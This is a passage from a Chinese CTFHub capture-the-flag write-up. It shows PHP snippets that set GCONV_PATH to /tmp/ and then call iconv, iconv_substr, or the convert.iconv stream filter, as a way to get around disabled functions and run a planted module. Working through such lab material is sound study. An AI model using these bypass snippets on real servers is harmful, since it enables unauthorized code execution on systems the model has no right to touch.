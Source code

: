 ```php
// a.php
<?php
    putenv("GCONV_PATH=/tmp/");
    iconv("abc", "UTF-8", "whatever");
?>
```

### 1.10 bypass iconv 1

这里iconv函数被过滤了。

![image-20210811105034832](CTFHUB%E8%BF%9B%E9%98%B6.assets/image-20210811105034832.png)

> [php中iconv函数用法详解介绍_PHP教程-php教程-PHP中文网](https://www.php.cn/php-weizijiaocheng-305277.html)

那根据上面的文章，可以换一个函数来使用。

```php
// a.php
<?php
    putenv("GCONV_PATH=/tmp/");
    iconv_substr("whatever", 1, 1, 'abc');
?>
```

### 1.11 bypass iconv 2

![image-20210811110834170](CTFHUB%E8%BF%9B%E9%98%B6.assets/image-20210811110834170.png)

这里iconv几乎所有的函数都被禁用了。

> [探索php://filter在实战当中的奇技淫巧 - linuxsec - 博客园 (cnblogs.com)](https://www.cnblogs.com/linuxsec/articles/12684259.html)
>
> **convert.iconv.***
>
> 这个过滤器需要 php 支持 `iconv`，而 iconv 是默认编译的。使用convert.iconv.*过滤器等同于用[iconv()](https://www.php.net/manual/zh/function.iconv.php)函数处理所有的流数据。
>
> 两种使用方法：
>
> ```
> convert.iconv.<input-encoding>.<output-encoding> 
> convert.iconv.<input-encoding>/<output-encoding>
> ```

```php
<?php
putenv("GCONV_PATH=/tmp/");
$fp = fopen('php://output', 'w');
stream_filter_append($fp, 'convert.iconv.abc.utf-8');
// fwrite($fp, "This is a test.n");
fclose($fp);
?>
```
